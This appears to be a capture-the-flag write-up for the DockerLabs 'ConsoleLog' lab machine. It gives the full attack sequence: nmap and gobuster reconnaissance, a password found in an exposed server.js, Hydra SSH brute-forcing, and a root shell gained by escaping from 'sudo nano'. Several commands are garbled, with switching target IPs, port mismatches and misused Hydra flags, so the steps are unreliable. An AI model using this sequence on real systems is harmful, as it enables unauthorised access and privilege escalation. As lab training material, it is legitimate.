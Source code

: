 ```yaml
---
title: ConsoleLog Writeup - DockerLabs
date: 2024-08-09
categories:
    - Writeups
    - DockerLabs
tags:
    - Linux
    - DockerLabs
    - CTF
    - Easy
img_path: /assets/img/commons/consolelog/
image: consolelog.png
---
```


Hello!

In this write-up, we will dive into the **DockerLabs** machine [ConsoleLog](https://mega.nz/file/oGMWiKoJ#l02GwzicvsgLaczCjTSqaJNl5-NGajklpOY3A3Tu9to).

Let's go!

## Active recognition
---

As a first step, we will execute the `ping` command to verify that the target machine is active:

```bash
ping -c 1 172.17.0.2
```


## Port scanning
---

Next, we run a scan with `nmap` to identify open ports on the target machine.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv 172.18.0.2 -oG allPorts
```

The only open ports that we see are 80 (HTTP server), 3000 (API) and 5000 (SSH), we can see more information of the services by executing:

```bash
nmap -sCV 22,80 172.18.0.2 -oN targeted -oX targetedXML
```

![nmap](nmap.png)


## Exploitation
---
We see a button and the machine's name give us a clue, let's try to click the button and see what's the output of the console (there is a `console.log`)

We see a message: "Para opciones de depuración, el token de /recurso/ es tokentraviesito"

We can't see much more information so let's try to find hidden directories:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -r
```

![gobuster-report](gobuster.png)

We find the endpoint `/backend`. If we open it, we can see the following website:

![backend](endpoint_backend.png)

We can see a file named `server.js` let's see what it contains:

![server-js](server-js.png)

We have found a password, let's try to use Hydra to get into the SSH server:

```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xat-net-10-million-usernames.txt -P lapa++++++todas ssh://172.17.0.2:5000 -s 22 -t 64
```

We can see now that the user is lovely, and we can access via SSH with his credentials:

```bash
ssh lovely@172.17.0.2 -p 5000
```

<br>

## Privilege escalation
---

First, we should export the xterm to easily work with the SSH terminal. We can do this just by executing the following:
```bash
export TERM=xterm
```

Now, as the user Lovely, we are able to run the command `sudo -l` to try to find superuser processes that we can run as the user prod:

![sudo-l](sudo-l.png)

We find that we can execute the `nano` tool as sudo.

We can access `nano` and obtain a shell by executing the following:

```bash
sudo nano
```

Once we are inside nano, we are going to type `CTRL+R` and then `CTRL+X`, we can now see that we can execute commands.

At this point, we are going to execute:

```bash
reset; sh 1>&0 2>&0
```

![privesc1](nano_privesc.png)

And now, we have access to a root priveleged terminal.

![root-sh](root-sh.png)

We can execute the following to get a full functional shell:

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```

![sudo_access](privilege2.png)

Now we have gained superuser access and we have the whole system committed.


> H4Ppy H4ck1ng!
